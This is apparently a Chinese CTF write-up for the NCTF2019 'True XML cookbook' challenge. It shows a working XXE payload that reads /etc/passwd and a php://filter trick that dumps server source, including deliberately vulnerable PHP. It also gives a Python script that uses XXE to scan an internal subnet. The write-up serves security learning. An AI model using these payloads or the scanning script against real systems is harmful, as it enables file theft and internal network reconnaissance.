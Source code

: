 ```yaml
---
layout: mypost
title: "[NCTF2019]True XML cookbook"
categories: [ctf_wp]
---
```


（这个题需要对xxe漏洞理解透彻，如果大家还是对xxe漏洞有点懵，可以先去看我的另一篇文章--对xml的亿点理解，这篇文章将从原理到利用，一步一步带大家认识xxe，让大家以后不再害怕它）

（还有就是这道题在buuctf的环境有的时候正常，有的时候出问题）

1.这个题目还是挺新颖的，题目提示了XML，这个题基本上是xxe漏洞了，其实没给的话，一步一步也能分析出来，咱们一步一步往下看，首先进去的话是一个登录框，f12以及看了网络抓包，得到了一个可疑的东西，就是源码里面有这样一串js的代码

```
<script type='text/javascript'> 
function doLogin(){
	var username = $("#username").val();
	var password = $("#password").val();
	if(username == "" || password == ""){
		alert("Please enter the username and password!");
		return;
	}
	
	var data = "<user><username>" + username + "</username><password>" + password + "</password></user>"; 
    $.ajax({
        type: "POST",
        url: "doLogin.php",
        contentType: "application/xml;charset=utf-8",
        data: data,
        dataType: "xml",
        anysc: false,
        success: function (result) {
        	var code = result.getElementsByTagName("code")[0].childNodes[0].nodeValue;
        	var msg = result.getElementsByTagName("msg")[0].childNodes[0].nodeValue;
        	if(code == "0"){
        		$(".msg").text(msg + " login fail!");
        	}else if(code == "1"){
        		$(".msg").text(msg + " login success!");
        	}else{
        		$(".msg").text("error:" + msg);
        	}
        },
        error: function (XMLHttpRequest,textStatus,errorThrown) {
            $(".msg").text(errorThrown + ':' + textStatus);
        }
    }); 
}
</script>
```

读过我那篇--对xml的亿点理解的小伙伴，可能一眼就看出来，这个js代码应该是用来给后端发送这个xml的数据的，然后也有处理从后端传到前端的的xml数据，下面具体说一下吧

```
1. 首先，它从页面上的两个元素（ID分别为username和password）中获取用户输入的用户名和密码
2. 然后，它检查用户名和密码是否为空。如果任一为空，它会弹出一个警告并停止执行
3. 如果用户名和密码都不为空，它会创建一个XML格式的数据，然后通过AJAX POST请求发送到doLogin.php
4. 如果请求成功，它会解析返回的XML数据，获取code和msg，并根据code的值更新页面上的.msg元素的文本
5. 如果请求失败，它会更新页面上的.msg元素的文本，显示错误信息
```

2.实锤了这个题目应该就是用xxe来解决的，直接抓个包看一下，这就很明显了，是一个xml的数据格式

![](Screenshot_168.png)

然后我就废话不多说了，直接上payload的吧，如果看不懂的话，先去看我的另一篇文章（唠叨一嘴）

```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE user [<!ELEMENT user ANY >
<!ENTITY  xxe SYSTEM "file:///etc/passwd" >]>
<user><username>&xxe;</username><password>2
</password></user>
```

![](image-20231006173107545-1024x251.png)

下面是response

![](image-20231006173131330.png)

这个题还是很简单的哈，也是正常的有回显的xxe，这样就不用再去搞个公网vps啥的了，当然这个无回显也很简单啦，就是多两行代码的事情

3.然后我就试着去主机的根目录以及去网站的根目录找有没有flag，结果都是以失败告终

![](image-20231006173634169-1024x573.png)

然后想着那就先把这个doLogin.php的源码给扒下来吧，这个当然用file不太行哈，换个伪协议

```
php://filter/read=convert.base64-encode/resource=/var/www/html/doLogin.php
```

然后就读到base64加密后的字符，解密后就是源码

```
<?php
/**
* autor: c0ny1
* date: 2018-2-7
*/

$USERNAME = 'admin'; //账号
$PASSWORD = '024b87931a03f738fff6693ce0a78c88'; //密码
$result = null;

libxml_disable_entity_loader(false);
$xmlfile = file_get_contents('php://input');

try{
	$dom = new DOMDocument();
	$dom->loadXML($xmlfile, LIBXML_NOENT | LIBXML_DTDLOAD);
	$creds = simplexml_import_dom($dom);

	$username = $creds->username;
	$password = $creds->password;

	if($username == $USERNAME && $password == $PASSWORD){
		$result = sprintf("<result><code>%d</code><msg>%s</msg></result>",1,$username);
	}else{
		$result = sprintf("<result><code>%d</code><msg>%s</msg></result>",0,$username);
	}	
}catch(Exception $e){
	$result = sprintf("<result><code>%d</code><msg>%s</msg></result>",3,$e->getMessage());
}

header('Content-Type: text/html; charset=utf-8');
echo $result;
?>
```

这源码屁用没有啊，给了账号密码登上去也没后台，但还是给大家解释一下吧，就当熟悉熟悉这个写法了

```
1. 首先，定义了两个变量 $USERNAME 和 $PASSWORD，这些是预设的用户名和密码
2. libxml_disable_entity_loader(false); 这行代码允许加载外部实体，这可能导致 XML 实体注入（XXE）漏洞！！！
3. $xmlfile = file_get_contents('php://input'); 这行代码从 HTTP 请求体中获取 XML 数据
4. 在 try 块中，使用 DOMDocument 对象加载并解析 XML 数据
5. 使用 simplexml_import_dom 函数将 DOM 对象转换为 SimpleXML 对象，以便更容易地处理
6. 从 XML 数据中提取用户名和密
7. 检查提取的用户名和密码是否与预设的用户名和密码匹配。如果匹配，返回一个 XML 结果，其中包含代码 1 和用户名。如果不匹配，返回一个 XML 结果，其中包含代码 0 和用户名
8. 如果在处理 XML 数据时发生异常，将捕获该异常并返回一个 XML 结果，其中包含代码 3 和异常消息
9. 最后，设置响应的内容类型为 text/html; charset=utf-8，并输出结果
```

4.实在是不会了，去看了一下师傅的wp，才觉悟过来，这个题不仅仅是个简单的xxe，忘记了xxe还能做内网探测，起到了相当于nmap的功能，其实我一开始在读/etc/passwd的时候也去顺便的读了这个/proc/net/arp文件以及/etc/hosts，这个也是再做一道ctf题的经验，甚至去读了用户的操作记录，但都没什么可疑的，但现在回头看，这明显就是buuctf环境有问题，当时在读/proc/net/arp的时候，真的是只显示了一块网卡，但重新开了一个靶机后，结果就是下面这样

![](屏幕截图-2023-10-06-162140-1024x638.png)

竟然显示了两块网卡（这个搞网安的，经常开虚拟机，应该懂什么意思）

5.然后就用http这个协议去探测就行，呜当时看书还想过一下是不是这样搞，md，该死buuctf，一个一个探测肯定不太现实，但是用bp爆破的话，出现了一个问题，就是这个发包之后回显的时间会很长，http没有探测到内容的话，应该马上就会回显相应的提示，我猜测这是出题人故意设置的，但bp好像没法改响应时间（两者可能冲突了，当时bp的反应就是直接卡死不动了，可能也是我的bp有问题吧），所以还是写个python脚本吧，强大的requests库万岁！！！

```
import requests as res
url="http://cb4236ae-2262-46e8-a095-f420887c377f.node4.buuoj.cn:81/doLogin.php"
rawPayload='<?xml version="1.0"?>'\
         '<!DOCTYPE user ['\
         '<!ENTITY payload1 SYSTEM "http://10.244.80.{}">'\
         ']>'\
         '<user>'\
         '<username>'\
         '&payload1;'\
         '</username>'\
         '<password>'\
         '23'\
         '</password>'\
         '</user>'
for i in range(1,256):
    payload=rawPayload.format(i)
    #payload=rawPayload
    print(str("#{} =>").format(i),end='')
    try:
        resp=res.post(url,data=payload,timeout=0.3)
    except:
        continue
    else:
        print(resp.text,end='')
    finally:
        print('')
```

然后跑就完了，一会儿就能出结果

![](屏幕截图-2023-10-06-180348-1024x539.png)

Finish!!!